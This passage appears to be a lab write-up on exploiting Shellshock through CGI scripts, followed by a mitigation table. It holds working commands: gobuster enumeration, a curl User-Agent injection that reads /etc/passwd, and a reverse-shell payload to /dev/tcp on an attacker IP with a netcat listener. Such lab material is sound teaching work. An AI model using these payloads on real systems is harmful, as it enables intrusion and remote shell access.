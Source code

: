If **patched**, only `not vulnerable` is printed.

## 🕵️‍♂️ Exploiting Shellshock via CGI

### 🧭 Step 1: Enumeration with Gobuster

Discover CGI scripts:

```bash
$ gobuster dir -u http://10.129.204.231/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi
```

**Result**:

```http
/access.cgi           (Status: 200)
```

### 🧪 Step 2: Confirming the Vulnerability

Use `curl` to inject payload in a **HTTP header (User-Agent)**:

```bash
$ curl -H 'User-Agent: () { :; }; echo ; /bin/cat /etc/passwd' http://10.129.204.231/cgi-bin/access.cgi
```

**If vulnerable**, you’ll receive the contents of `/etc/passwd`.


### 🐚 Step 3: Reverse Shell Exploitation

Start a **netcat listener**:

```bash
$ sudo nc -lvnp 7777
```

Send reverse shell payload:

```bash
$ curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.38/7777 0>&1' http://10.129.204.231/cgi-bin/access.cgi
```

If successful, you'll receive a shell as `www-data`:

```bash
www-data@htb:/usr/lib/cgi-bin$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


## 🧯 Mitigation

| 🔧 Method                       | 💬 Notes                                                  |
| ------------------------------- | --------------------------------------------------------- |
| ✅ **Update Bash**               | Upgrade to a **patched version** (Bash ≥ 4.3)             |
| 🔒 **Restrict CGI Usage**       | Disable CGI scripts where unnecessary                     |
| 🔥 **Firewall Unused Services** | Limit access to CGI apps, especially on embedded devices  |
| 🧱 **Web App Firewall (WAF)**   | Can block some malicious inputs                           |
| 📦 **Patch Package Manager**    | May require updating package manager first on EOL systems |
| 🧨 **Decommission Old Devices** | If CGI is critical, isolate or replace affected devices   |

---